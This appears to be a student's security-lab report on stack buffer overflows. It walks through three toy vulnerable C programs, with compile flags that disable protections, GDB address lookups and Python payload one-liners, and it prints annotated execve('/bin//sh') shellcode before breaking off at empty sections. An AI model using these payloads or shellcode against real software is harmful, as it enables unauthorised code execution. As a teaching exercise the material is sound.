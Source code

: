 # 21110073 Le Bui Huu Phuc
# Lab #1: Buffer Overflow
https://github.com/neptuneizme/Report_InformationSecurityLab/blob/ba45caceef5c15c556d1cd833d32601037087b14/Lab%20%231%3A%20Buffer%20Overflow.md
# Task 1: Stack smashing by memory overwritten
## 1.1. bof1.c
- Compile the program using the following command:
![img1.1](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/fd7842bc5625ec9590414f935437903fb41a70d5/A%CC%89nh%20ma%CC%80n%20hi%CC%80nh%202024-06-27%20lu%CC%81c%2020.02.43.png)
- This command disables stack protection and sets the boundary.
![img1.2](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.2.png?raw=true)
- Use the GDB command disas to get the address of push ebp in the secretFunc() function. The address obtained is:
![img1.3](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.3.png?raw=true)
- 0x0804846b
- Create the input payload using Python and execute the program with the crafted input:
![img1.3](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.4.png?raw=true)
- Here, the address 0x0804846b is appended to the payload, and ./bof1.o is executed with 1 as the argument.
## 1.2. bof2.c
- Crafting the Payload
+ Create a string that is 44 bytes long, where the first 40 bytes fill buf, and the next 4 bytes overwrite check with 0xdeadbeef. Python command to generate such a payload:
```python python -c "print('A'*40 + '\xef\xbe\xad\xde')" > input.txt ```
- Compile the Program:
```python gcc bof2.c -o bof2.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2```
- Run the Program:
``` ./bof1.o < input.txt```
![img2.1](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof2.1.png?raw=true)
## 1.3. bof3.c
### Key Points:
+ Buffer Definition: char buf[128]; creates a buffer of 128 bytes.
+ Function Pointer: void (*func)() = sup; initializes func to point to the sup function.
+ Buffer Overflow: fgets(buf, 133, stdin); reads up to 132 characters into buf, which can overflow the buffer and overwrite adjacent memory, including the func pointer.
+ Function Call: func(); calls the function pointed to by func.
### Exploitation Strategy
- Overflow buf to overwrite the func pointer with the address of the shell function.
- Ensure that after the overflow, func points to shell.
### Steps to Exploit
+ Find the Address of the shell Function: ``` gcc bof3.c -o bof3.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2```
![img](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof3.1.png?raw=true)
- Compile the program with debug information: ```gdb bof3.o
(gdb) disas shell```
### Determine the Offset:
- Since buf is 128 bytes and func is immediately after buf, the offset to overwrite func will be 128 bytes.
### Create the Payload:

- The payload should be 128 bytes of filler followed by the address of shell.
- Use Python to create the payload: ```python -c "print('A'*128 + '\x5b\x84\x04\x08')" > input.txt```
### Run the Program:
```./bof3.o < input.txt```
# Task 2: Code injection
## 2.1. Preparing shell code
### Create shellcode.txt
```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80 ```
```assembly
\x31\xc0                    ; xor eax, eax        ; Clear EAX
\x50                        ; push eax            ; Push 0 onto the stack (NULL terminator)
\x68\x2f\x2f\x73\x68        ; push 0x68732f2f     ; Push "//sh" onto the stack
\x68\x2f\x62\x69\x6e        ; push 0x6e69622f     ; Push "/bin" onto the stack
\x89\xe3                    ; mov ebx, esp        ; Set EBX to point to the start of the string
\x50                        ; push eax            ; Push 0 onto the stack (NULL terminator for argv)
\x53                        ; push ebx            ; Push the pointer to "/bin//sh" onto the stack
\x89\xe1                    ; mov ecx, esp        ; Set ECX to point to the start of the argv array
\x31\xd2                    ; xor edx, edx        ; Clear EDX (NULL terminator for envp)
\x31\xc0                    ; xor eax, eax        ; Clear EAX
\xb0\x0b                    ; mov al, 0xb         ; Set EAX to 11 (execve syscall number)
\xcd\x80                    ; int 0x80            ; Trigger interrupt to execute the syscall
```
## 2.2. Preparing the payload
## 2.3. Code injection
